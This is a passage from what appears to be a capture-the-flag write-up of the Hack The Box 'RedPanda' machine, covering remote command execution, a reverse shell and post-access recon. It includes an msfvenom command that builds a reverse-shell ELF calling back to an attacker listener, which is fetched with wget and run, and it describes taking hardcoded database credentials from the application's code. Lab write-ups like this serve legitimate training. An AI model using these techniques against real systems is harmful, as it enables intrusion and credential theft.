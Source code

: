 I modified that script so that it was using the correct payloads for this app, and I also made it parse the results and display only the output of the commands, without all the extra HTML.  
This was the result:

<details><summary>panda_exploit.py (click to expand)</summary></details>

### Getting a reverse shell, getting the user flag

By using the script mentioned above, we can execute commands on the server.

![Testing the custom script]({{site.baseurl}}/assets/img/HTB/redpanda/custom_script.png){: .center-image}

Now I want to get a reverse (interactive) shell by using this.
I tried using python3, bash and netcat in order to get a reverse shell but none of those worked.  
So I tried generating an ELF shell (with msfvenom), moving it to the server and executing it.  

First, we generate the shell by using msfvenom

{% highlight bash %}
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=1337 CMD=/bin/bash -f elf -o shell
{% endhighlight %}

And we download it on the server (using wget) & run it.

![Running a reverse shell]({{site.baseurl}}/assets/img/HTB/redpanda/run_reverse_shell.png){: .center-image}
It works and we now have an interactive shell.

![Reverse shell]({{site.baseurl}}/assets/img/HTB/redpanda/reverse_shell.png){: .center-image}

After confirming that the shell works, we get the user flag.

![Getting the user flag]({{site.baseurl}}/assets/img/HTB/redpanda/user_flag.png){: .center-image}

### Recon, getting user credentials

Now that we have access, let's do some recon on the server.  
We want to see how the web application that we interacted with looks like and what else runs on the server.  

Both the code and the compiled JARs for this application can be found in /opt.  

First, let's see if we can find database credentials for this machine.  
The class that handles connections to the database has the credentials hardcoded in so we can grab them from there.
![MySQL password]({{site.baseurl}}/assets/img/HTB/redpanda/sql_credentials.png){: .center-image}

We can confirm that they work by accessing the database directly.
![Using the MySQL password]({{site.baseurl}}/assets/img/HTB/redpanda/mysql_pass.png){: .center-image}

Unfortunately, we cannot find anything interesting in that database.  
We can see the data used by the application. An interesting piece of data that's missing is the authors that we see when we use the /export endpoint. 
![Looking at the database]({{site.baseurl}}/assets/img/HTB/redpanda/mysql_select.png){: .center-image}
